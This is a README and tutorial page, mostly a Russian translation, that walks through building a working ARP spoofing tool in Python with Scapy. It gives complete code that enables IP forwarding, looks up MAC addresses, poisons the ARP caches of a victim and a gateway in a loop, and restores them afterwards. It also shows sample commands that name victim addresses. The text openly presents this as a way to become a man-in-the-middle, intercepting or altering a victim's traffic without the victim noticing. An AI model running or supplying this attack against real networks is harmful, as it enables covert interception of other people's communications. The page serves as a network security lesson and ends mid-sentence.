# [Building an ARP Spoofer](https://www.thepythoncode.com/article/building-arp-spoofer-using-scapy)
to run this:
- `pip3 install -r requirements.txt`
- 
    ```
    python3 arp_spoof.py --help
    ```
    **Output**:
    ```
    usage: arp_spoof.py [-h] [-v] target host

    ARP spoof script

    positional arguments:
    target         Victim IP Address to ARP poison
    host           Host IP Address, the host you wish to intercept packets for
                    (usually the gateway)

    optional arguments:
    -h, --help     show this help message and exit
    -v, --verbose  verbosity, default is True (simple message each second)
    ```
    For instance, if you want to spoof **192.168.1.2** and the gateway is **192.168.1.1**:
    ```
    python3 arp_spoof 192.168.1.2 192.168.1.1 --verbose
    ```
##
# [Building an ARP Spoofer](https://www.thepythoncode.com/article/building-arp-spoofer-using-scapy)
Что такое ARP Спуфинг
Короче говоря, это метод получения ситуации «человек посередине». Технически говоря, это метод, с помощью которого злоумышленник отправляет поддельные ARP-пакеты (ложные пакеты) в сеть (или конкретные хосты), позволяя злоумышленнику перехватывать, изменять или модифицировать сетевой трафик на лету.

Как только вы (как злоумышленник) станете человеком посередине, вы можете буквально перехватить или изменить все, что проходит в или из устройства жертвы. Итак, в этом уроке мы напишем скрипт Python, чтобы сделать именно это.

В обычной сети все устройства обычно обмениваются данными со шлюзом, а затем с Интернетом, как показано на следующем рисунке:

Регулярная сеть

Теперь злоумышленнику необходимо отправить ARP-ответы обоим хостам:

Отправка ARP-ответа шлюзу со словами«У меня есть IP-адрес жертвы».
Отправка ARP-ответа жертве, в котором говорится, что «у меня есть IP-адрес шлюза».
Подделка ARP

Как только злоумышленник выполнит атаку ARP Spoof, как показано на предыдущем рисунке, он окажется в ситуации «человек посередине»:

Человек в средней ситуацииВ этот момент, как только жертва отправляет какой-либо пакет (например, HTTP-запрос), он сначала передается на машину злоумышленника. Затем он перенаправит пакет на шлюз, поэтому, как вы можете заметить, жертва не знает об этой атаке. Другими словами, они не смогут понять, что на них нападают.

Ладно, хватит теории! Прежде чем мы начнем, вам необходимо установить необходимые библиотеки:
    ```
pip3 install scapy
    ```
Проверьте этот учебник, чтобы заставить Scapy правильно работать на вашем компьютере, если вы используете Windows. Дополнительно необходимо установить pywin32, например:
    ```
pip3 install pywin32
    ```
Получите: Создайте 24 этических хакерских скрипта и инструмента с помощью Python Book
Написание скрипта Python
Прежде всего, нам нужно импортировать необходимые модули:
    ```
from scapy.all import Ether, ARP, srp, send
import argparse
import time
import os
import sys
    ```
Примечание: Вам нужно иметь библиотеку Scapy, установленную на вашем компьютере, перейдите к этому сообщению или официальному веб-сайту Scapy.

В начале я должен упомянуть, что нам нужно включить IP-пересылку.

Существует множество способов включения IP-маршрутизации на различных платформах. Тем не менее, я сделал модуль python здесь, чтобы включить IP-маршрутизацию в Windows, не беспокоясь ни о чем.

Для Unix-подобных пользователей (платформа, предлагаемая для этого учебника) вам нужно отредактировать файл "/proc/sys/net/ipv4/ip_forward", который требует доступа root, и поставить значение 1, которое указывает как включенное. Ознакомьтесь с этим руководством для получения дополнительной информации. Эта функция делает это в любом случае:
    ```
def _enable_linux_iproute():
    """
    Enables IP route ( IP Forward ) in linux-based distro
    """
    file_path = "/proc/sys/net/ipv4/ip_forward"
    with open(file_path) as f:
        if f.read() == 1:
            # already enabled
            return
    with open(file_path, "w") as f:
        print(1, file=f)
    ```
Для пользователей Windows после копирования services.py в текущий каталог можно скопировать и вставить следующую функцию:
    ```
def _enable_windows_iproute():
    """
    Enables IP route (IP Forwarding) in Windows
    """
    from services import WService
    # enable Remote Access service
    service = WService("RemoteAccess")
    service.start()
    ```
Приведенная ниже функция управляет включением IP-маршрутизации на всех платформах:
    ```
def enable_ip_route(verbose=True):
    """
    Enables IP forwarding
    """
    if verbose:
        print("[!] Enabling IP Routing...")
    _enable_windows_iproute() if "nt" in os.name else _enable_linux_iproute()
    if verbose:
        print("[!] IP Routing enabled.")
    ```
Теперь давайте перейдем к классным вещам. Во-первых, нам нужна функция утилиты, которая позволяет нам получить MAC-адрес любой машины в сети:
    ```
def get_mac(ip):
    """
    Returns MAC address of any device connected to the network
    If ip is down, returns None instead
    """
    ans, _ = srp(Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(pdst=ip), timeout=3, verbose=0)
    if ans:
        return ans[0][1].src
    ```
Связанные с: Как сделать изменение MAC-адреса в Python

Мы используем функцию srp() Scapy, которая отправляет запросы в виде пакетов и продолжает прослушивать ответы; в этом случае мы отправляем запросы ARP и прослушиваем любые ответы ARP.

Во-вторых, мы собираемся создать функцию, которая выполняет основную работу этого учебника; учитывая целевой IP-адрес и IP-адрес хоста, он изменяет кэш ARP целевого IP-адреса, говоря, что у нас есть IP-адрес хоста:
    ```
def spoof(target_ip, host_ip, verbose=True):
    """
    Spoofs `target_ip` saying that we are `host_ip`.
    it is accomplished by changing the ARP cache of the target (poisoning)
    """
    # get the mac address of the target
    target_mac = get_mac(target_ip)
    # craft the arp 'is-at' operation packet, in other words; an ARP response
    # we don't specify 'hwsrc' (source MAC address)
    # because by default, 'hwsrc' is the real MAC address of the sender (ours)
    arp_response = ARP(pdst=target_ip, hwdst=target_mac, psrc=host_ip, op='is-at')
    # send the packet
    # verbose = 0 means that we send the packet without printing any thing
    send(arp_response, verbose=0)
    if verbose:
        # get the MAC address of the default interface we are using
        self_mac = ARP().hwsrc
        print("[+] Sent to {} : {} is-at {}".format(target_ip, host_ip, self_mac))
    ```
Связанные с: Создание 24 этических хакерских скриптов и инструментов с помощью Python Book

Приведенный выше код получает MAC-адрес цели, создает вредоносный пакет ответа (ответа) ARP, а затем отправляет его.

Как только мы захотим остановить атаку, нам нужно переназначить реальные адреса целевому устройству (а также шлюзу), если мы этого не сделаем, жертва потеряет подключение к Интернету, и будет очевидно, что что-то произошло, мы не хотим этого делать, мы отправим семь законных пакетов ответа ARP (обычная практика) последовательно:
    ```
def restore(target_ip, host_ip, verbose=True):
    """
    Restores the normal process of a regular network
    This is done by sending the original informations 
    (real IP and MAC of `host_ip` ) to `target_ip`
    """
    # get the real MAC address of target
    target_mac = get_mac(target_ip)
    # get the real MAC address of spoofed (gateway, i.e router)
    host_mac = get_mac(host_ip)
    # crafting the restoring packet
    arp_response = ARP(pdst=target_ip, hwdst=target_mac, psrc=host_ip, hwsrc=host_mac, op="is-at")
    # sending the restoring packet
    # to restore the network to its normal process
    # we send each reply seven times for a good measure (count=7)
    send(arp_response, verbose=0, count=7)
    if verbose:
        print("[+] Sent to {} : {} is-at {}".format(target_ip, host_ip, host_mac))
    ```
Это было похоже на функцию spoof(), и единственное отличие заключается в том, что она отправляет несколько легитимных пакетов. Другими словами, он посылает правдивую информацию.

Теперь нам нужно будет написать основной код, который подделывает оба; цель и хост (шлюз) бесконечно до тех пор, пока не будет обнаружен CTRL+C, поэтому мы восстановим исходные адреса:
    ```
if __name__ == "__main__":
    # victim ip address
    target = "192.168.1.100"
    # gateway ip address
    host = "192.168.1.1"
    # print progress to the screen
    verbose = True
    # enable ip forwarding
    enable_ip_route()
    try:
        while True:
            # telling the `target` that we are the `host`
            spoof(target, host, verbose)
            # telling the `host` that we are the `target`
            spoof(host, target, verbose)
            # sleep for one second
            time.sleep(1)
    except KeyboardInterrupt:
        print("[!] Detected CTRL+C ! restoring the network, please wait...")
        restore(target, host)
        restore(host, target)
    ```
Получите: Создайте 24 этических хакерских скрипта и инструмента с помощью Python Book

Я запустил сценарий на машине Linux. Вот скриншот моего результата:

Результат выполнения скрипта ARP Spoof

В этом примере я использовал свой персональный компьютер в качестве жертвы. Если вы попытаетесь проверить кэш ARP:

После атаки подмены ARP

Вы увидите, что MAC-адрес злоумышленника (в данном случае «192.168.1.105») совпадает с адресом шлюза. Мы абсолютно одурачены!

На компьютере злоумышленника, когда вы нажимаете CTRL + C, чтобы закрыть программу, вот скриншот процесса восстановления:

Восстановление исходных адресов

Вернувшись к компьютеру жертвы, вы увидите, что исходный MAC-адрес шлюза восстановлен: